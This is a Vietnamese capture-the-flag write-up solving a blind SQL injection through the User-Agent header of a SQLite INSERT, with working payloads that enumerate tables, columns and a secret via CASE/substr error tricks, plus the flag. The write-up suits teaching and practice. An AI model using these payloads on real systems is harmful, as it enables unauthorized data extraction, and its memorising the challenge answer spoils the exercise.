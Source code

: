 ## Giải
- Trong câu lệnh INSERT kia có các thành phần là `ip_address`, `user_agent`, `referer`, `url`, `cookie`, `created_at`. Để ý đến `user_agent` có trong request gửi đi, nên em nghĩ mình có thể attack từ đây.
- Sửa `User-Agent` thành: `', null, null, null, null),(null,'`
- Khi đó truy vấn gửi đi sẽ là:
``` sql
INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
VALUES ('{ip_address}', '{user_agent}', null, null, null, null), (null,'', '{referer}', '{url}', '{cookie}', '{created_at}');
```
- Như vậy nó sẽ thành gửi đi 2 bộ giá trị.

![image](https://github.com/user-attachments/assets/39f96a09-d136-47c1-adc1-6b3db8efa3d6)

- Thử giá trị NULL kia, thì nó ở dạng số hoặc string.
- Từ đây em muốn sử dụng Boolean để đoán ra từng ký tự có trong flag.
- Đầu tiên, tìm kiếm tên bảng với truy vấn này và [script này](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Blind_Logger_Middleware_tables.py)

`', (SELECT CASE WHEN substr((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0), 1, 1) = 'a' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'`

![image](https://github.com/user-attachments/assets/e728ddf4-b962-4673-8e14-1585ba36baf4)

- Có 2 bảng là `logger` và `flag`
- Khai thác bảng `flag` để tìm tên các cột bảng với truy vấn và [script này](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Blind_Logger_Middleware_columns.py)

`', (SELECT CASE WHEN substr((SELECT name FROM pragma_table_info('flag') LIMIT 1 OFFSET {offset}), {index}, 1) = '{c}' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'`

![image](https://github.com/user-attachments/assets/4214545f-1e10-4b4f-b677-d8196c50a05e)

- Vậy là có 2 cột là: `id` và `secret`

- Tiếp tục khai thác cột `secret` để tìm flag có trong cột bằng truy vấn và [script này](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/ckArenapy/Blind_Logger_Middleware_flag.py)

`', (SELECT CASE WHEN substr((SELECT secret FROM flag LIMIT 1), {index}, 1) = '{c}' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'`

![image](https://github.com/user-attachments/assets/08051c0e-6683-4ebe-8e9b-f168a8a32fa7)

- Lấy được flag: `CHH{blInD_sqLi_1N_UPDATE}`
